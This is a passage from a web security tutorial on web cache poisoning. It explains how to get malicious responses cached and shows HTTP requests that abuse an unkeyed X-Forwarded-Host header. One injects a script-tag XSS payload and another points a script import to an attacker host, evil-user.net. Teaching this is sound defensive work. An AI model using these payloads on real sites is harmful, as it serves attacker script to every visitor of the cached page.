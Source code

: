 ### Get the response cached
Manipulating inputs to elicit a harmful response is half the battle, but it doesn't achieve much unless you can cause the response to be cached, which can sometimes be tricky.

Whether or not a response gets cached can depend on all kinds of factors, such as the file extension, content type, route, status code, and response headers. You will probably need to devote some time to simply playing around with requests on different pages and studying how the cache behaves. Once you work out how to get a response cached that contains your malicious input, you are ready to deliver the exploit to potential victims. 

### Exploiting cache design flaws
### Using web cache poisoning to deliver an XSS attack
Perhaps the simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization.

For example, consider the following request and response: 
```bash
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Here, the value of the X-Forwarded-Host header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. Crucially for web cache poisoning, the X-Forwarded-Host header is often unkeyed. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload: 
```bash
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```
If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload.

### Using web cache poisoning to exploit unsafe handling of resource imports
Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead.

If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key. 
```bash
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

